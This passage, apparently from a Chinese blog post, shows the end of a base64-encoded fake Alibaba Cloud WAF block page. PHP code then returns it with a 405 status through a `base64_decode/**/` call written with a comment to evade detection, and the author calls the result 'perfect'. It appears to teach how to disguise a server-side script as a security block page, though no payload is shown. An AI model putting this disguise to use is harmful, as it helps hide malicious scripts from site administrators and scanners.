JsT3JpZ2luKSB7CiAgICAgICAgICAgICAgICB0cnkgewogICAgICAgICAgICAgICAgICAgIHVybE9yaWdpbiA9IG5ldyBVUkwodXJsT3JpZ2luKTsKICAgICAgICAgICAgICAgICAgICBpZiAodXJsT3JpZ2luLnByb3RvY29sICE9PSAiaHR0cHM6IiAmJiB1cmxPcmlnaW4ucHJvdG9jb2wgIT09ICJodHRwOiIpIHsKICAgICAgICAgICAgICAgICAgICAgICAgdXJsT3JpZ2luID0gbnVsbDsKICAgICAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgICAgICB1cmxPcmlnaW4gPSB1cmxPcmlnaW4uaHJlZjsKICAgICAgICAgICAgICAgICAgICB9CiAgICAgICAgICAgICAgICB9IGNhdGNoIChlKSB7CiAgICAgICAgICAgICAgICAgICAgaWYgKHR5cGVvZiB1cmxPcmlnaW4gIT09ICJzdHJpbmciIHx8IHVybE9yaWdpbi5pbmRleE9mKCJodHRwIikgIT09IDApIHsKICAgICAgICAgICAgICAgICAgICAgICAgdXJsT3JpZ2luID0gbnVsbDsKICAgICAgICAgICAgICAgICAgICB9IGVsc2UgewogICAgICAgICAgICAgICAgICAgICAgICB1cmxPcmlnaW4gPSBmaWx0ZXJIdG1sKHVybE9yaWdpbik7CiAgICAgICAgICAgICAgICAgICAgfQogICAgICAgICAgICAgICAgfQogICAgICAgICAgICB9CiAgICAgICAgICAgIHZhciBfbGFuZ3VhZ2UgPSBuYXZpZ2F0b3IuYnJvd3Nlckxhbmd1YWdlIHx8IG5hdmlnYXRvci5sYW5ndWFnZTsKICAgICAgICAgICAgdmFyIHRleHQgPSBbInpoLUNOIiwgInpoLWNuIl0uaW5jbHVkZXMoX2xhbmd1YWdlKSA/ICLngrnmiJHlj43ppoggPiIgOiAiQ2xpY2sgdG8gZmVlZGJhY2sgPiI7CiAgICAgICAgICAgIHJldHVybiAnPGEgaHJlZj0iJyArIHVybE9yaWdpbiArICcvX19fX190bWRfX19fXy9wYWdlL2ZlZWRiYWNrP3JhbmQ9UzNXeEdIQWdBdDc1NkVwem53Zk56SnEyQUZBMnFCTmxhM2o2RUlOVVM4V2U5ZGF6TV9pS0VscDhEd1ZTSFpVZXZwQzQxQng3UnppdlhJajlSblpnZGcmdXVpZD0nICsgZW5jb2RlVVJJQ29tcG9uZW50KHV1aWQpICsgJyZ0eXBlPTYiIHRhcmdldD0iX2JsYW5rIj4nICsgdGV4dCArICc8L2E+JzsKICAgICAgICB9OwogICAgICAgIGZ1bmN0aW9uIGZpbHRlckh0bWwoc3RyKSB7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC8mL2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoLz4vZywgIiIpOwogICAgICAgICAgICBzdHIgPSBzdHIucmVwbGFjZSgvPC9nLCAiIik7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC8iL2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoLycvZywgIiIpOwogICAgICAgICAgICBzdHIgPSBzdHIucmVwbGFjZSgvYC9nLCAiIik7CiAgICAgICAgICAgIHN0ciA9IHN0ci5yZXBsYWNlKC9qYXZhc2NyaXB0L2csICIiKTsKICAgICAgICAgICAgc3RyID0gc3RyLnJlcGxhY2UoL2lmcmFtZS9nLCAiIik7CiAgICAgICAgICAgIHJldHVybiBzdHI7CiAgICAgICAgfQoKICAgIDwvc2NyaXB0PgogICAgPHNjcmlwdCB0eXBlPSJ0ZXh0L2phdmFzY3JpcHQiIGNoYXJzZXQ9InV0Zi04IiBzcmM9Imh0dHBzOi8vZXJyb3JzLmFsaXl1bi5jb20vZXJyb3IuanM/cz0xMCI+CiAgICA8L3NjcmlwdD4KPC9ib2R5PgoKPC9odG1sPg==";
header('Content-Type:text/html;charset=utf-8');
http_response_code(405);
echo base64_decode/**/($ad0PNj);

```



可以看到已经完美了
